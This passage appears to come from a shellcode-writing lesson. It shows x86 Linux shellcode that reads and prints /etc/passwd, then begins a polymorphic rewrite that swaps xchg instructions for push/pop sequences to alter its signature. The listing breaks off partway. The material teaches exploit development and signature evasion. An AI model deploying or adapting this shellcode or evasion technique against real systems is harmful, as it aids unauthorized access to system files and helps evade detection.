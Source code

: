 Output assembly:
```nasm
xor ecx,ecx 
mul ecx 
mov al,0x5 
push ecx 
push dword 0x64777373
push dword 0x61702f63
push dword 0x74652f2f
mov ebx,esp 
int 0x80 
xchg eax,ebx 
xchg eax,ecx 
mov al,0x3 
xor edx,edx 
mov dx,0xfff 
inc edx 
int 0x80 
xchg eax,edx 
xor eax,eax 
mov al,0x4 
mov bl,0x1 
int 0x80 
xchg eax,ebx 
int 0x80 
```

This shellcode already uses a lot of the tricks we've learned over the last few lessons, but we can still change quite a bit of it. Let's see what we can do.

```nasm
global _start


section .text

_start:
	xor ecx,ecx
	xor eax,eax
	xor edx,edx			; longer way to clear these 3 registers 
	mov al,0x5 
	push edx			; can switch this to any of the cleared registers as we're just pushing a null, changed to edx 
	push dword 0x64777373
	push dword 0x61702f63
	push dword 0x74652f2f
	mov ebx,esp 
	int 0x80
	push eax			; Step 1
	push ebx			; Step 2
	push ecx			; Step 3
	pop eax				; Step 4
	pop ecx				; Step 5
	pop ebx 			; Step 6, we just replaced two simple xchg opcodes with 6 lines of push/pops
	mov al,0x3  
	mov dx,0xfff			; deleted previous line which was xor edx,edx since edx is still zeroed 
	inc edx 
	int 0x80
	push eax			; Step 1
	push edx			; Step 2
	pop eax				; Step 3
	pop edx	 			; Step 4, we just replaced a simple xchg opcde with 4 lines of push/pops 
	xor eax,eax 
```